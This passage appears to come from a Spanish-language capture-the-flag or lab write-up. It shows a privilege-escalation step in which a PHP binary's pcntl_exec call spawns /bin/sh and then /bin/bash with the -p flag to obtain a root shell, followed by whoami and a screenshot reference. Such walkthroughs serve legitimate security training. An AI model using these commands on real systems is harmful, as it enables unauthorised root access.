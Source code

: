     **./php -r "pcntl_exec('/bin/sh', ['-p']);”**
    
    Lo modificamos para sustituir el proceso por una **bash** y asir ser root.
    
    `/usr/bin/php8.2 -r "pcntl_exec('/bin/bash', ['-p']);"`
    
    `whoami`
    
    ![image.png](./imagenes/image%20215.png)
  